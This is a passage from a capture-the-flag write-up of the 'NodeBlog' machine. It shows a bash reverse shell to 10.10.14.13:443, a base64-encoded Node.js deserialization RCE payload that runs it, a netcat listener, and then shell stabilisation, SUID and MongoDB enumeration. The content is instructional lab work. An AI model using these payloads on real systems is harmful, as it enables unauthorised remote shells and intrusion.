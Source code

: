 > **reverse**

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.13/443 0>&1
```

```bash
vi reverse
cat reverse | base64 -w 0; echo
base64 -w 0 reverse; echo
```

> **Payload**

```javascript
{"rce":"_$$ND_FUNC$$_function (){ require('child_process').exec('echo IyEvYmluL2Jhc2gKCmJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTMvNDQzIDA+JjEK|base64 -d|bash',function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

```bash
nc -nlvp 443
```

<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_46.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_47.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_48.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I can now perform a **Console Treatment**, to have better mobility. If I perform a basic enumeration I find the `pkexec` binary with **SUID** permissions, but I will try another attack vector. It's strange but I can't access the **HOME** directory of the `admin` user, neither read the first flag. I remember that a **MongoDB** database was being implemented, if I look at the internal ports again, I confirm that it is. I am looking for a **[MongoDB CheatSheet](https://gist.github.com/bradtraversy/f407d642bdc3b31681bc7e56d95485b6){:target="_blank"}** to access it and look for some information that will allow me to rooted the machine. I find credentials, which do not allow me to log in as `root`, but with `sudo -l` I can see which commands I can execute as `root`, and big surprise, I can execute any, then I can switch to `root` user directly.

```bash
script /dev/null -c bash            [Ctrl+z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128

find \-perm -4000 2>/dev/null
# --> /usr/bin/pkexec
ls -l ./usr/bin/pkexec

netstat -nat
# --> tcp        0      0 127.0.0.1:27017     MongoDB!

mongo
> help
> show dbs
> use admin
> show collections
```